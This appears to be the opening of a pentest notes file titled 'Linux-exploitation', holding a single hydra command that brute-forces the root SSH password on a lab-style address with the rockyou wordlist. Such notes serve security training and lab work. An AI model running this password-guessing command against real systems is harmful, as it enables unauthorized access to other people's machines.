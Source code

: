 # Linux-exploitation

## Bruteforcing

### SSH

```
hydra -e snr -l root -P /usr/share/wordlists/rockyou.txt 10.10.10.7 -t 4 ssh
```
